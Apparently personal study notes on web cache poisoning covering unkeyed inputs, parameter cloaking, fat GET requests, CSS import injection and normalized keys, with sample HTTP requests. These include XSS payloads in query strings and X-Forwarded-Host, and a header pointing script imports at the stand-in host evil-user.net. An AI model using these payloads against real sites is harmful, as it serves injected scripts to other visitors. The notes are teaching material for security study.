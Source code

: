 




Headers to Consider
--------------------
Cache-control directives
Vary header 
3rd parties headers 
analytical headers
CDN cache headers ex :
`akamai-x-get-cache-key` => `Returns the cache key used for the request`


# Exploiting cache implementation flaws 



## Unkeyed port

EX :
-consider the case where a redirect URL was dynamically generated based on the Host header
-This might enable you to construct a denial-of-service attack by simply adding an arbitrary port to the request.


## Unkeyed query string

how to find : -that you can still get a cache hit even if you change the query parameters.
		             -This indicates that they are not included in the cache key.

EX : 
-Like the Host header, the request line is typically keyed. However, one of the most common cache-key transformations is to exclude the entire query string
```http
GET /?evil='/><script>alert(1)</script>
```



## Unkeyed query parameters

-some websites only exclude specific query parameters that are not relevant to the back-end application
-such as parameters for analytics or serving targeted advertisements. UTM parameters like utm_content
EX:
```http
GET /?utm_content='/><script>alert(1)</script>
```

## Unkeyed Header 


## Unkeyed cookie 


## Cache parameter cloaking


#### -Exploiting parameter parsing quirks


##### check how cache parses the URL to identify and remove the unwanted parameters

- Some poorly written parsing algorithms will treat any ? as the start of a new parameter, regardless of whether it's the first one or not.
```http
GET /?example=123?excluded_param=bad-stuff-here
```


##### check parsing discrepancies between the **cache and the application.**

- The Ruby on Rails framework , interprets both ampersands (&) and semicolons (;) as delimiters.
- When used in conjunction with a cache that does not allow this, you can potentially exploit another quirk to override the value of a keyed parameter in the application logic.


EX: 
- Consider the following request:  
```http
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here
```
- As the names suggest, keyed_param is included in the cache key, but excluded_param is not.

- Many caches will only interpret this as two parameters, delimited by the ampersand:
        keyed_param=abc
        excluded_param=123;keyed_param=bad-stuff-here

- Once the parsing algorithm removes the excluded_param, the cache key will only contain keyed_param=abc.

- On the back-end, however, Ruby on Rails sees the semicolon and splits the query string into three separate parameters:
        keyed_param=abc
        excluded_param=123
        keyed_param=bad-stuff-here
        
-If there are duplicate parameters, each with different values, Ruby on Rails gives precedence to the final occurrence

-if a website is using JSONP to make a cross-domain request, this will often contain a callback parameter to execute a given function on the returned data:
        GET /jsonp?callback=innocentFunction



#### -Exploiting fat GET support


-the HTTP method may not be keyed.
-This might allow you to poison the cache with a POST request containing a malicious payload in the body.
-Your payload would then even be served in response to users' GET requests.
-Although this scenario is pretty rare, you can sometimes achieve a similar effect by simply adding a body to a GET request to create a "fat" GET request:

EX :
```http
GET /?param=innocent HTTP/1.1
 …
 param=bad-stuff-here
```




#### -Exploiting dynamic content in resource imports


EX : 
- consider a page that reflects the current query string in an import statement:

```
//request
GET /style.css?excluded_param=123);@import… 

//response
HTTP/1.1 HTTP/1.1 200 OK … 
@import url(/site/home/index.part1.8a6715a2.css?excluded_param=123);@import…
```
 
- You could exploit this behavior to inject malicious CSS that exfiltrates sensitive information from any pages that import /style.css

- If the page importing the CSS file doesn't specify a `doctype`, you can maybe even exploit static CSS files. Given the right configuration, browsers will simply scour the document looking for CSS and then execute it. This means that you can occasionally poison static CSS files by triggering a server error that reflects the excluded query parameter
```
//request
GET /style.css?excluded_param=alert(1)%0A{}*{color:red;} 

//response
HTTP/1.1 HTTP/1.1 200 OK Content-Type: text/html …
This request was blocked due to…alert(1){}*{color:red;}
```


## Normalized cache keys

-Some caching implementations normalize keyed input when adding it to the cache key.
-In this case, both of the following requests would have the same key:

```http
GET /example?param="><test>
```
```http
GET /example?param=%22%3e%3ctest%3e
```

- This behavior can allow you to exploit these otherwise "unexploitable" XSS vulnerabilities.
- If you send a malicious request using Burp Repeater, you can poison the cache with an unencoded XSS payload.
- When the victim visits the malicious URL, the payload will still be URL-encoded by their browser; however, once the URL is normalized by the cache, it will have the same cache key as the response containing your unencoded payload.


## Cache key injection

## Internal cache poisoning








# Exploiting cache design flaws 


### Using web cache poisoning to deliver an XSS attack

- Perhaps the simplest web cache poisoning vulnerability to exploit is when unkeyed input is reflected in a cacheable response without proper sanitization.
ex:
```http
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: a."><script>alert(1)</script>" 
```

```http
HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

### Using web cache poisoning to exploit unsafe handling of resource imports

- Some websites use unkeyed headers to dynamically generate URLs for importing resources
ex:
```http
GET / HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: evil-user.net 
User-Agent: Mozilla/5.0 Firefox/57.0 
```

```http
HTTP/1.1 200 OK 
<script src="https://evil-user.net/static/analytics.js"></script>
```

### Using web cache poisoning to exploit cookie-handling vulnerabilities

- Cookies are often used to dynamically generate content in a response , if they are unkeyed it will lead to cache poisoning

### Using multiple headers to exploit web cache poisoning vulnerabilities


### Using web cache poisoning to exploit DOM-based vulnerabilities

- if the website unsafely uses unkeyed headers to import files, this can potentially be exploited by an attacker to import a malicious file instead. However, this applies to more than just JavaScript files.
- Many websites use JavaScript to fetch and process additional data from the back-end.
- If a script handles data from the server in an unsafe way, this can potentially lead to all kinds of DOM-based vulnerabilities.

